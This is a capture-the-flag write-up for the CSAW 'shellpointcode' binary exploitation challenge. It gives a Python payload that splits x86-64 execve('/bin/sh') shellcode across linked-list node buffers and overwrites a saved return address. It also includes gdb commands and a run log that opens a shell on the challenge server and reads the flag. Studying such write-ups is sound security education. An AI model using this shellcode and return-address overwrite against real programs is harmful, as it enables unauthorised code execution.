 shell-&gt;code
==============

Linked lists are great! They let you chain pieces of data together.

`nc pwn.chal.csaw.io 9005`

[shellpointcode](/files/32cc91e380dac838a4f2978dfd963fb3/shellpointcode){.chal-file}

Debugging
=========

First, jump back to goobye:buffer. Then

```py
payload = b''
payload += b'\x90'*3
payload += b'\x48\x31\xd2'                              # xor    %rdx, %rdx
payload += b'\xb0\x3b'                                  # mov    $0x3b, %al
payload += b'\xeb\x09' + b'\x90'                        # jmp 11 through save_rip
payload += p64(save_rip - 8)                            # jump back to buffer
payload += b'\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68'  # mov $0x68732f6e69622f2f, %rbx
payload += b'\xeb\x01'                                  # jmp 3 through null byte

node2_text  = b''
node2_text += b'\x90'*5             # padding, overwrited by payload
node2_text += b'\x48\xc1\xeb\x08'   # shr    $0x8, %rbx
node2_text += b'\x53'               # push   %rbx
node2_text += b'\x48\x89\xe7'       # mov    %rsp, %rdi
node2_text += b'\xeb\x11'           # jmp 19 to node1->buffer

node1_text  = b''
node1_text += b'\x50'                        # push   %rax
node1_text += b'\x57'                        # push   %rdi
node1_text += b'\x48\x89\xe6'                # mov    %rsp, %rsi
node1_text += b'\xb0\x3b'                    # mov    $0x3b, %al
node1_text += b'\x0f\x05'                    # syscall
node1_text += b'\x90'*(15 - len(node1_text))
```

```gdb
break *goodbye+70
c
i r rdi rsi rdx
x/2xg $rsi
```

Flag
====

```bash
$ python sol.py
[+] Opening connection to pwn.chal.csaw.io on port 9005: Done
[*] ADDR_node1_next       : 0x7ffec82225b0
[*] ADDR_goodbye_save_rip : 0x7ffec82225a8
[+] pause null!
[*] Switching to interactive mode

Thanks \x90\x90\x90H1Ґ\x90\xa0%"\x7f
$
$ ls
flag.txt
shellpointcode
$ cat fl*
flag{NONONODE_YOU_WRECKED_BRO}
$
[*] Closed connection to pwn.chal.csaw.io port 9005
```
